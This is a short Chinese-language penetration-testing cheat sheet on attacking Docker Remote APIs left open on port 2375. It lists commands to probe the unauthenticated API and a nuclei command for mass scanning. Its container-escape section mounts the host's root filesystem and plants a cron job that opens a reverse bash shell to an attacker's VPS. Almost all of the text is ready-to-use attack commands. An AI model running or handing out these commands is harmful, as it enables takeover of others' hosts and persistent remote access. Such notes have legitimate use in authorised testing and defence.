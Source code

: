 # 2375 Docker

## 未授权访问

```bash
HOST=; PORT=2375; # TARGET HOST INFO
```

```bash
curl $HOST:$PORT/version
curl $HOST:$PORT/info
docker -H tcp://$HOST:$PORT images
docker -H tcp://$HOST:$PORT container
```

### 批量检测未授权访问

```bash
nuclei -t ~/nuclei-templates/http/misconfiguration/exposed-docker-api.yaml -l hosts-port.txt
```

* [\~/nuclei-templates/http/misconfiguration/exposed-docker-api.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/misconfiguration/exposed-docker-api.yaml)

## 容器逃逸

```bash
HOST=; PORT=2375; # TARGET HOST INFO
```

```bash
# 使用目标主机的 Docker 创建容器
docker -H tcp://$HOST:$PORT run -it -v /:/mnt nginx:latest --name nginx-test /bin/bash
# 没有网络的话可以尝试加上 --network host
# IN CONTAINER
HOST=; PORT=6789; # VPS INFO
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1 > /mnt/etc/cron.d/reverse_shell
```
